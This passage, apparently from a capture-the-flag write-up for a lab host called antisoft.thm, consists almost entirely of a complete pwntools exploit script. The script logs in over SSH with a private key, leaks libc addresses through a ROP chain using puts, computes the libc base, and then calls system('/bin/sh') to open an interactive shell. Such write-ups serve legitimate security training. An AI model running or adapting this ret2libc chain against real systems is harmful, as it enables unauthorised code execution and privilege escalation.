 The final exploit looks like this:
```python
from pwn import *

######################## Stage 1
user = "zeeshan"
port = 22
host = "antisoft.thm"
private_key = "./id_rsa"

ssh_connection = ssh(host=host, user=user, keyfile=private_key, port=port)

context.binary = binary = ELF("./exploit_me", checksec=False)
# context.log_level = "debug" -- un-comment for debugging

_ROP = ROP(binary)

padding = b'A' * 40
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
plt_puts_address = p64(binary.plt.puts)
got_puts_address = p64(binary.got.puts)
got_gets_address = p64(binary.got.gets)
got_setuid_address = p64(binary.got.setuid)
main_address = p64(binary.symbols.main)

payload = padding
payload += pop_rdi_ret_address + got_puts_address + plt_puts_address
payload += pop_rdi_ret_address + got_gets_address + plt_puts_address
payload += pop_rdi_ret_address + got_setuid_address + plt_puts_address
payload += main_address

p = ssh_connection.process("/exploit_me")
p.recvline()
p.sendline(payload)
output = p.recv().split(b"\n")

puts_address = u64(output[0].ljust(8, b"\x00"))
gets_address = u64(output[1].ljust(8, b"\x00"))
setuid_address = u64(output[2].ljust(8, b"\x00"))

print(f"Puts address: {hex(puts_address)}")
print(f"Gets address: {hex(gets_address)}")
print(f"Setuid address: {hex(setuid_address)}")

######################## Stage 2

libc = ELF("./libc6_2.23-0ubuntu11.3_amd64.so", checksec=False)
libc.address = puts_address - libc.sym["puts"]
print(f"libc Base address: {hex(libc.address)}")

bin_sh_address = p64(next(libc.search(b"/bin/sh")))
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
alignment_issue_ret_address = p64(_ROP.find_gadget(["ret"])[0])
system_address = p64(libc.symbols.system)

payload = padding
payload += alignment_issue_ret_address
payload += pop_rdi_ret_address
payload += bin_sh_address
payload += system_address

p.sendline(payload)
p.interactive()
```
